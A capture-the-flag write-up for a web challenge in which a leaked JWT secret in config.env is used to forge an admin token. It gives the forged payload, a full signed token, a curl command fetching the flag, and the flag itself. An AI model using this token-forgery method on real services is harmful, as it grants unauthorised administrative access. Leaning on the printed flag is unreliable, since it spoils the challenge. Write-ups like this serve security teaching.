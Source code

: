 # Jasons Backing Service

Vulnerability:
* config.env contains the SECRET which is used to generate JWT

Exploitation:
* Go to https://jwt.io/ and enter the SECRET into `your-256-bit-secret` field in verify signature
* Set the following payload:
```json
{
  "name": "admin",
  "admin": 1
}
```
* Set the generated JWT and curl the /flag endpoint, e.g.
`curl --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhZG1pbiI6MX0.LJZOowkPC1PcWFwgSNaex-7RqPQmI0W3uZ763ostWyc" https://spooky-jason-bakeshop-web.chals.io/flag`

Flag:
 
`NICC{jWoT_tOkeNs_nEed_saf3_secr3ts}`
